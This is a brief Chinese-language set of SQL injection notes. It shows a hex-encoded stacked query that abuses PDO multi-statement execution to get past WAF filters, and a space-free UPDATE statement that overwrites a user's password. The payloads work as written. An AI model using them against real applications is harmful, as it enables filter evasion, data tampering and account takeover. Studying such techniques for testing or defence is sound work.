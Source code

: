 ![](img/pdo.png)

## pdo多语句执行

利用pdo可以多语句执行，可以用如下语句绕过一些waf限制

```
set%20@x=0x73656c65637420736c656570283130293b;prepare%20a%20from%20@x;execute%20a;
```

条件

 - `PDO::ATTR_EMULATE_PREPARES` 为`true` 否则预编译阶段就会报错

## 不用空格和`/*`执行语句

```SQL
update(user)set`password`='1'where`id`=1;
```

